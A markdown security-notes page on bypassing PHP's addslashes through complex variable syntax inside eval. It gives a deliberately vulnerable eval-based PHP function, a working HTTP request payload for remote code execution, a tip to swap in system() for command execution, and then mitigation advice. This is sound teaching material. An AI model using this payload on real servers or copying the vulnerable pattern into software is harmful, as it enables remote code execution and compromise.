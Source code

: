 ```yaml
---
description: Information about PHP exploitation and prevention techniques
---
```


# PHP

## Bypassing the PHP function `addslashes`

Quotes and apostrophes are parsed different in PHP \(similar as in bash\). Variables within quotes `"$a"` will be interpreted, meaning they will be resolved. Same goes for apostrophes within quotes `"'$a'"`.  Variables within Apostrophes won't be interpreted `'$a'`.

To encapsulate the variable that is meant to be resolved when other characters are appended to the string \(e.g. `$a123`\), curly brackets come in handy `${a}`they allow the following to be interpreted in an expected manner:`${a}123` since `123` is not seen as a part of the variable `$a` , the content of `$a` will be interpreted.

Now it is also possible to define a new variable like this and assign a value to it `${a}=123`. Since we can encapsulate what the variable name should be, its possible to call a function within the curly brackets, which return value will be used as the variable name and then assign a value to it `${phpinfo()}=123`. As an example, the values defined in this operation can be dumped with `var_dump(${phpinfo()}=123)`. The `var_dump()` function essentially dumps all information for the variable passed to it.

### Exploitation / POC

**Vulnerable function**

```php
function vuln($vulnerable){
    $vulnerable = addslashes($vulnerable);
    # perform some other actions
    eval('echo "' . $vulnerable . '";');
}
```

* while `test"; phpinfo(); echo "test` would be prevented by calling the `addslashes` function, `${phpinfo()}` certainly would not. 

**Remote exploit example**

```http
GET /index.php?vulnerable=var_dump(${eval($_GET[1])}=123)&1=phpinfo(); HTTP/1.1
Host: example.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
DNT: 1
Cache-Control: max-age=0


```

* For code execution replace `phpinfo()` with `system("sleep%2010")`
  * In this scenario the `vulnerable` parameter is evaluated by the `addslashes` function before it is processed further.
  * The variable `1=` is not evaluated by the `addslashes` function, thus bypassing it completely.

### Mitigation

Implement proper input validation and do not process user input unsanitized \(especially not by functions such as `eval` or `system`\). The `addslashes` function is not designed as a security mechanism and should not be used as such.

### References

* [Using complex variables to bypass the addslashes function to achieve RCE](https://www.programmersought.com/article/30723400042/)
* [PHP addslashes](https://www.php.net/manual/de/function.addslashes.php)
* [PHP var\_dump](https://www.php.net/manual/de/function.var-dump.php)

